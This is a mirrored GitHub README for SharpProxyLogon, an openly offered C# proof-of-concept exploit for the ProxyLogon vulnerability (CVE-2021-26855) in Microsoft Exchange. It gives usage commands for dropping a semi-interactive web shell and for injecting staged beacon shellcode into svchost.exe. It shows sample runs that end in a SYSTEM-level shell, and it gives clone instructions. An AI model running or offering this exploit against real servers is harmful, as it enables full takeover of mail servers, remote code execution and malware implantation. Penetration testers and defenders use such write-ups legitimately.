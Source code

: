 # SharpProxyLogon

C# POC for CVE-2021-26855 aka ProxyLogon, supports the classically semi-interactive web shell as well as shellcode injection 

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Flangvik](https://github.com/Flangvik) |
| Url      | [https://github.com/Flangvik/SharpProxyLogon](https://github.com/Flangvik/SharpProxyLogon)                                               |
| Stars    | 225                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# SharpProxyLogon

C# POC for the ProxyLogon chained RCE

```
 __ _                        ___                       __
/ _\ |__   __ _ _ __ _ __   / _ \_ __ _____  ___   _  / /  ___   __ _  ___  _ __
\ \| '_ \ / _` | '__| '_ \ / /_)/ '__/ _ \ \/ / | | |/ /  / _ \ / _` |/ _ \| '_ \
_\ \ | | | (_| | |  | |_) / ___/| | | (_) >  <| |_| / /__| (_) | (_| | (_) | | | |
\__/_| |_|\__,_|_|  | .__/\/    |_|  \___/_/\_\\__, \____/\___/ \__, |\___/|_| |_|
                    |_|                        |___/            |___/
@Flangvik

Usage Shell: SharpProxyLogon.exe <targetip> <targetemail>
Usage x64 injection: SharpProxyLogon.exe <targetip> <targetemail> <shellcodepath.bin> <inject-target-full-path>
```

Shellcode injection uses built-in [TikiTorch stub by @Rastamouse](https://github.com/rasta-mouse/TikiTorch), this will spawn, suspend and inject staged_beacon.bin into svchost.exe

```
SharpProxyLogon.exe 192.168.58.111:443 administrator@legitcorp.net C:\Temp\staged_beacon.bin "C:\Windows\System32\svchost.exe"

 __ _                        ___                       __
/ _\ |__   __ _ _ __ _ __   / _ \_ __ _____  ___   _  / /  ___   __ _  ___  _ __
\ \| '_ \ / _` | '__| '_ \ / /_)/ '__/ _ \ \/ / | | |/ /  / _ \ / _` |/ _ \| '_ \
_\ \ | | | (_| | |  | |_) / ___/| | | (_) >  <| |_| / /__| (_) | (_| | (_) | | | |
\__/_| |_|\__,_|_|  | .__/\/    |_|  \___/_/\_\\__, \____/\___/ \__, |\___/|_| |_|
                    |_|                        |___/            |___/
@Flangvik

Usage Shell: SharpProxyLogon.exe <targetip> <targetemail>
Usage x64 injection: SharpProxyLogon.exe <targetip> <targetemail> <shellcodepath.bin> <inject-target-full-path>
[+] Got hostname DC01
[+] Got legacyDN /o=LEGITCORP/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=ae2513b106f343ab8c465ec254b105c6-Administrator
[+] Got mailBoxId 7844b192-ae6a-4a16-afe4-269900d5c40a@legitcorp.net
[+] Got accountSID S-1-5-21-2354578447-2549489838-160590685-500
[+] Patched accountSID-> S-1-5-21-2354578447-2549489838-160590685-500
[+] Got msExchEcpCanary lR_xIbkU4EeRa8k0G_ekSjy7CrzM9dgIeCdYK8sMbRQMUoAQMnEfYvHrvDLT1j2jJMFBrpxnJ1s.
[+] Got aspNETSessionID 0e8da60d-ff97-4748-80f1-5834caeba361
[+] Got OABId 1d2e2d98-c636-43c7-a3a9-8041b545d575
[+] Setting ExternalUrl...
[+] Triggering ResetOABVirtualDirectory...
[+] Shell should have landed, triggering injection
```

Example with classic webshell drop
```
SharpProxyLogon.exe 192.168.58.111:443 administrator@legitcorp.net

 __ _                        ___                       __
/ _\ |__   __ _ _ __ _ __   / _ \_ __ _____  ___   _  / /  ___   __ _  ___  _ __
\ \| '_ \ / _` | '__| '_ \ / /_)/ '__/ _ \ \/ / | | |/ /  / _ \ / _` |/ _ \| '_ \
_\ \ | | | (_| | |  | |_) / ___/| | | (_) >  <| |_| / /__| (_) | (_| | (_) | | | |
\__/_| |_|\__,_|_|  | .__/\/    |_|  \___/_/\_\\__, \____/\___/ \__, |\___/|_| |_|
                    |_|                        |___/            |___/
@Flangvik

Usage Shell: SharpProxyLogon.exe <targetip> <targetemail>
Usage x64 injection: SharpProxyLogon.exe <targetip> <targetemail> <shellcodepath.bin> <inject-target-full-path>
[+] Got hostname DC01
[+] Got legacyDN /o=LEGITCORP/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=ae2513b106f343ab8c465ec254b105c6-Administrator
[+] Got mailBoxId 7844b192-ae6a-4a16-afe4-269900d5c40a@legitcorp.net
[+] Got accountSID S-1-5-21-2354578447-2549489838-160590685-500
[+] Patched accountSID-> S-1-5-21-2354578447-2549489838-160590685-500
[+] Got msExchEcpCanary V7mF62VZA0ay793xWTSE07chwKLM9dgIQolVMbEnWJJkvonIUO8VWm2BZdIklFP35W-mtZnUZ4Y.
[+] Got aspNETSessionID 9028e0b3-e56c-4b33-b0e9-b66ab9ab9067
[+] Got OABId cabf9619-178d-4d3e-84a3-748ec598a477
[+] Setting ExternalUrl...
[+] Triggering ResetOABVirtualDirectory...
[+] Shell should have landed, going semi-interactive
CMD #>whoami
nt authority\system

CMD #>hostname
DC01

CMD #>ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::2598:cc98:d369:b6ed%13
   IPv4 Address. . . . . . . . . . . : 192.168.58.111
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.58.2

CMD #>
```


## Get the content

```
git clone https://github.com/Flangvik/SharpProxyLogon
cd SharpProxyLogon
```

{% embed url="https://github.com/Flangvik/SharpProxyLogon" %}

<figure><img src="https://avatars.githubusercontent.com/u/23613997?v=4" alt=""><figcaption><p>Flangvik</p></figcaption></figure>
